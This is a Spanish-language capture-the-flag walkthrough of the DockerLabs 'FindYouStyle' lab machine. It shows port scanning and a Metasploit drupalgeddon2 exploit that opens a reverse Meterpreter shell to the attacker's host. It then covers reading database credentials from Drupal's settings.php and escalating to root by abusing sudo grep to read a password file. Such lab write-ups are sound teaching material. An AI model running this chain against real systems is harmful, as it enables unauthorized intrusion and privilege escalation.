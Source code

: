 # FindYouStyle DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip findyoustyle.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh findyoustyle.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 09:37 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Welcome to Find your own Style | Find your own Style
|_http-server-header: Apache/2.4.25 (Debian)
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.71 seconds
```

Si entramos en la pagina veremos que es un `Software` `Drupal` por lo que puede tener un `exploit` veremos a ver que version tiene.

```shell
whatweb http://<IP>/
```

Info:

```
http://172.17.0.2 [200 OK] Apache[2.4.25], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[172.17.0.2], MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, Title[Welcome to Find your own Style | Find your own Style], UncommonHeaders[x-drupal-dynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.3], X-UA-Compatible[IE=edge]
```

## Escalate user www-data

No vemos una version en especifica, por lo que vamos a probar a utilizar `metasploit` para ver si algun `exploit` funciona:

```shell
msfconsole -q
```

Si buscamos un exploit para `drupal` veremos que este funciona:

```shell
use exploit/unix/webapp/drupal_drupalgeddon2
```

Lo configuramos:

```shell
set LHOST <IP_ATTACKER>
set LPORT <PORT>
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.120.128:7777 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.120.128:7777 -> 172.17.0.2:38468) at 2025-01-17 09:47:59 -0500

meterpreter > getuid
Server username: www-data
```

Vemos que obtendremos una shell como el usuario `www-data`.

## Escalate user ballenita

Si listamos los usuarios con una `bash` veremos los siguientes:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

Vemos el usuario `ballenita`, si nos vamos al siguiente directorio:

```shell
cd /var/www/html/sites/default
```

Vemos un archivo de configuracion tipico de `drupal` donde suele tener credeciales de la pagina:

```shell
cat settings.php
```

Info:

```
@code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
```

Vemos una parte interesante, por lo que vamos a probar la contraseña que pone como `ballenitafeliz` de la siguiente forma:

```shell
su ballenita
```

Metemos como contraseña `ballenitafeliz` y veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ballenita on 9421cefb0a55:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ballenita may run the following commands on 9421cefb0a55:
    (root) NOPASSWD: /bin/ls, /bin/grep
```

Vemos que podemos utilizar el binario `grep` y `ls`, como el usuario `root`, por lo que haremos lo siguiente:

Si listamos la carpeta de `root` veremos lo siguiente:

```shell
sudo ls /root
```

Info:

```
secretitomaximo.txt
```

Por lo que podremos leer el archivo con `grep` de la siguiente forma:

```shell
LFILE=/root/secretitomaximo.txt
sudo grep '' $LFILE
```

Info:

```
nobodycanfindthispasswordrootrocks
```

Puede ser que sea la contraseña de `root`.

```shell
su root
```

Metemos como contraseña `nobodycanfindthispasswordrootrocks` y veremos que ya seremos `root`, por lo que habremos terminado.
